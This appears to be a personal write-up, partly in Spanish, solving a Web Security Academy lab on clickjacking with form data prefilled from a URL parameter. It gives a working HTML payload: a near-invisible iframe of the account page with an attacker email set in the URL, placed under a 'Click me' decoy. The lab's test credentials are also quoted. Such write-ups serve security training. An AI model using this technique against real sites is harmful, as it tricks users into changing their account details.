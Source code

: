 # Lab: Clickjacking with form input data prefilled from a URL parameter

```jsx
This lab extends the basic clickjacking example in Lab: Basic clickjacking with CSRF token protection. The goal of the lab is to change the email address of the user by prepopulating a form using a URL parameter and enticing the user to inadvertently click on an "Update email" button.

To solve the lab, craft some HTML that frames the account page and fools the user into updating their email address by clicking on a "Click me" decoy. The lab is solved when the email address is changed.

You can log in to your own account using the following credentials: wiener:peter
```

Debemos crear un enlace, con el fondo oculto, en donde enviemos una petición por GET, esta petición sera el cambio de correo, pero al haber un token csrf, deberá ser enviado con al información del usuario

```jsx
<style>
    iframe {
        position:relative;
        width:$width_value;
        height: $height_value;
        opacity: $opacity;
        z-index: 2;
    }
    div {
        position:absolute;
        top:$top_value;
        left:$side_value;
        z-index: 1;
    }
</style>
<div>Test me</div>
<iframe src="YOUR-LAB-ID.web-security-academy.net/my-account?email=hacker@attacker-website.com"></iframe>
```

Ahora vamos a adaptarlo con nuestros datos, acorde al ejercicio anterior

```jsx
<style>
    iframe {
        position:relative;
				width:700px;
        height: 700px;
        opacity: 0.00001;
        z-index: 2;
    }
    div {
        position:absolute;
        top:450px;
        left:70px;
        z-index: 1;
    }
</style>
<div>Click me</div>
<iframe src="https://0a810019038734a78383551b007600b1.web-security-academy.net/my-account?email=hacker@attacker-website.com"></iframe>
```

![image.png](Lab%20Clickjacking%20with%20form%20input%20data%20prefilled%20fr%20a98d562fe21e4af5b801b07e21f4c874/image.png)

![image.png](Lab%20Clickjacking%20with%20form%20input%20data%20prefilled%20fr%20a98d562fe21e4af5b801b07e21f4c874/image%201.png)